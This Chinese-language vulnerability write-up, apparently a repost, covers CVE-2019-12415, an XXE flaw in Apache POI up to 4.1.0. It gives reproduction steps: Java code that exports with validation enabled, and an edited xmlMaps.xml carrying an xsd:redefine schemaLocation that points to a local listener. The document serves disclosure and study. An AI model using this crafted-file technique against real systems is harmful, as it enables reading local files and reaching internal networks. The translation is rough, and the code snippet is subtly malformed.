

# （CVE-2019-12415）Apache POI <= 4.1.0 XXE 漏洞

> 原文：[http://book.iwonder.run/0day/Apache/3.html](http://book.iwonder.run/0day/Apache/3.html)

## 一、漏洞简介

### 什么是 POI

Apache POI 是 Apache 软件基金会的开放源码函式库，POI 提供 API 给 Java 程序对 Microsoft Office 格式档案读和写的功能。

### 关于 CVE-2019-12415

这是最近的 POI 官方宣布出来的一个 XXE 漏洞，可以影响到 4.1.0 版本，官方已在十天前更新了 4.1.1 版本，最新版本修复了这个 XXE 漏洞。

在最高 4.1.0 的 Apache POI 中，当使用工具 XSSFExportToXml 转换用户提供的 Microsoft Excel 文档时，特制文档可允许攻击者通过 XML 外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml 类 xlsx 转 xml 时触发的。

diff 了一下 4.1.0 和 4.1.1 XSSFExportToXml 类的原始代码，发现在 isValid 方法里多设置了一个功能。

问题就出在 XSSFExportToXml#isValid 方法里，如果 XSSFExportToXml#exportToXML 方法的第三个参数为 true 逐步进入 isValid 触发 XXE。


## 二、漏洞影响

Apache POI<=4.1.0

## 三、复现过程

```
XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true} 
```

然后下载这个 xlsx 文件。

```
https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx 
```

把文件替换为“ CustomXMLMappings.zip”并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在 <schema>标签里面加上一行代码。</schema>

```
<xsd:redefine schemaLocation="http://127.0.0.1:8080/"/> 
```



然后把 xlsx 释放出来的所有文件再用 zip 打包回去，改成 CustomXMLMappings.xlsx。

最后一步监听本地 8080 端口，运行 POC。 

